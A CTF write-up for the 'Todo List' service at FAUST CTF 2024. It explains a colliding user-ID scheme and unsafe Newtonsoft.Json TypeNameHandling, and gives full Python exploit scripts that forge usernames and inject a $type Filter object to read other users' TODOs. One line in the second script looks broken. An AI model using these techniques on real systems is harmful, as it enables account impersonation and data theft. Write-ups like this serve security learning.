 ```yaml
---
title: "FAUST CTF 2024 - Todo List Writeup"
date: 2024-10-11T06:00:00+02:00
author: "Greenscreener"
tags: [ "writeups" ]
---
```

> We participated in FAUST CTF 2024 under the pseudonym "TeamCalabria"
(unfortunately stolen on CTFTime by some CTFTime point hoarders).
Our member _Greenscreener_ managed to first blood the "Todo List" challenge.
You can also read the writeup on [his blog](https://grsc.cz/blog/faust2024-todo-list/)

An extremely feature-rich service written in C# (like srsly, why would you
implement 2FA for an A/D service and then never use it?). We identified two
different vulnerabilities, one based in the generation of user IDs and the other
one caused by an unsafe `Newtonsoft.Json` configuration. The one we found first
and was used for the first blood was the former.

## User ID vulnerability

There is a very wild looking function called `GetUserId`, which is used to
generate an ID that identifies the owner of a TODO. When a TODO is created, the
current user's ID is attached to it and only TODOs matching the current user's
ID are displayed.

The function generates this ID solely from the username and the algorithm to
generate this ID is however extremely bad and collisions can be created very
easily. The username is first lowercased (or uppercased if it is short), then
reversed, all vowels are replaced with asterisks, all asterisks are replaced
with ones and then it is finally reversed again. Each character of the resulting
string is then turned into a number by multiplying the character value by some
constant and the resulting numbers are summed together. The resulting sum is
then turned into a string and used as the ID.

This gives two opportunities for a collision:

1. The following characters: `aeiou*1` are all equivalent and can be freely
   exchanged without changing the resulting user ID.
2. As the numbers are all summed at the end, all characters of the username can
   be reordered freely.
3. (and generally any modification that is preserved in the sum, these are just
   the most obvious)

The first exploit looked something like this:

```python
s = requests.session()
bs = BeautifulSoup(s.get(f"http://[{host}]:8080/Identity/Account/Register", timeout=2).text)
print("Got homepage")
veriftoken = (bs.find('input', {'name': '__RequestVerificationToken'}).get("value"))
s.post(f"http://[{host}]:8080/Identity/Account/Register", data={
    "Input.Email": flag_id.replace("a", "1"),
    "Input.Password": "NoNoNo1!",
    "Input.ConfirmPassword": "NoNoNo1!",
    "__RequestVerificationToken": veriftoken})
print("Registered")
flagtext = (s.get(f"http://[{host}]:8080/Todo/ListTodos").text)
print(flagtext)
```

To make it more robust and resistant to trivial patches and fake flags, we then expanded it:

```python
password = ''.join(random.choice(string.ascii_uppercase + string.digits + string.printable) for _ in range(40))

for c in "a1eioux":
    username = flag_id
    if c == "a":
        username .join([shuf(s) for s in username.split("@")])
    elif c == 'x':
        username = 'admin.' + shuf(username.split("@")[0].split(".")[1]) + "@" + username.split("@")[1]
    else:
        username = flag_id.replace("a", c)
    print(username)
    s = requests.session()
    bs = BeautifulSoup(s.get(f"http://[{host}]:8080/Identity/Account/Register", timeout=2).text)
    print("Got homepage")
    veriftoken = (bs.find('input', {'name': '__RequestVerificationToken'}).get("value"))  # type: ignore
    s.post(f"http://[{host}]:8080/Identity/Account/Register", data={
        "Input.Email": username,
        "Input.Password": password,
        "Input.ConfirmPassword": password,
        "__RequestVerificationToken": veriftoken})
    print("Registered")
    flagtext = (s.get(f"http://[{host}]:8080/Todo/ListTodos").text)
    flagtext = "\n".join([line for line in flagtext.split("\n") if 'FAUST_Q1' in line])
    if "FAUST_Q1" in flagtext:
        print(flagtext)
        return
    flagtext = (s.get(f"http://[{host}]:8080/Todo/Export?format=json").text)
    flagtext = "\n".join([line for line in flagtext.split("\n") if 'FAUST_Q1' in line])
    if "FAUST_Q1" in flagtext:
        print(flagtext)
        return
```

## `TypeNameHandling` vulnerability

The second vulnerability leveraged the `TypeNameHandling` configuration option
of `Newtonsoft.Json`. This configuration option is
[bad](https://stackoverflow.com/questions/39565954/typenamehandling-caution-in-newtonsoft-json)
and is even discouraged by a
[code quality rule](https://stackoverflow.com/questions/39565954/typenamehandling-caution-in-newtonsoft-json)
(which isn't enabled by default though).

The option allows the attacker to include a `$type` property in a JSON object,
which then causes the `Newtonsoft` deserializer to deserialize it as any type
that is available in the current assembly. This poses an obvious code execution
vulnerability, as the attacker can call the constructor or property initializer
of any class. Conveniently, the `Filter` class automatically adds itself into
the database when it's initialized using its `QueryString` property and thus can
be used to add arbitrary filters into the database and we can create a filter
that shows us the TODOs of a different user.

```python
username = f"admin.{randstring(7)}@todo-list-{randstring(7)}.de"
password = ''.join(random.choice(string.ascii_uppercase + string.digits + string.printable) for _ in range(40))

s = requests.session()
bs = BeautifulSoup(s.get(f"http://[{host}]:8080/Identity/Account/Register", timeout=2).text)
print("Got homepage")
veriftoken = (bs.find('input', {'name': '__RequestVerificationToken'}).get("value"))  # type: ignore
s.post(f"http://[{host}]:8080/Identity/Account/Register", data={
    "Input.Email": username,
    "Input.Password": password,
    "Input.ConfirmPassword": password,
    "__RequestVerificationToken": veriftoken})
print("Registered")
bs = BeautifulSoup(s.get(f"http://[{host}]:8080/Identity/Account/Login", timeout=2).text)
veriftoken = (bs.find('input', {'name': '__RequestVerificationToken'}).get("value"))  # type: ignore
s.post(f"http://[{host}]:8080/Identity/Account/Login", data={
    "Input.Email": username,
    "Input.Password": password,
    "__RequestVerificationToken": veriftoken})
print("Loggedin")
filtername = randstring(12)
s.post(f"http://[{host}]:8080/Todo/Import", files={"file": io.StringIO(json.dumps({
    "$type": "service.Models.Filter, service",
    "Id": 0,
    "User": username,
    "Name": filtername,
    "QueryString": "{\"User\":\"" + flag_id + "\", \"Category\": \"\", \"FromTime\": -1, \"ToTime\": -1}",
}))})
flagtext = s.get(f"http://[{host}]:8080/Todo/ApplyFilter?name=" + filtername).text
print(flagtext)
```
